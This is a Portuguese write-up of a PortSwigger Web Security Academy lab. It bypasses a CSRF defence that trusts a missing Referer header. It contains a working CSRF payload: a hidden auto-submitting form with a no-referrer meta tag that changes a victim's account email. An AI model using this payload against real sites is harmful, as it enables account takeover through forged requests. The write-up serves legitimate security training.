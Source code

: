 Nesse laboratório se alterarmos o campo `Referer` da requisição, o back-end não vai aceitar a requisição, porém ao ser removido, o back-end aceita a requisição.

com essa informação, podemos criar um script que envia a requisição para o back-end, e para isso, vamos utilizar o `exploit server` que o laboratório disponibiliza:

```html

<meta name="referrer" content="no-referrer">    
<form method="POST" action="https://0a9500f2034fa41dc0750cad00e60058.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="sonaelneto@user.net">
    </form>
    <script>
        document.forms[0].submit();
    </script>

```

Note que no script acima, temos a tag `<meta>` com o atributo `name="referrer"` e o valor `"no-referrer"`, que faz com que o `Referer` não seja enviado na requisição.

com isso, basta colocar esse script no `exploit server` que o laboratório disponibiliza:

![server](referer_server.png)

E clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.

![concluido](referer_concluido.png)

---

## **• CSRF with broken Referer validation.**
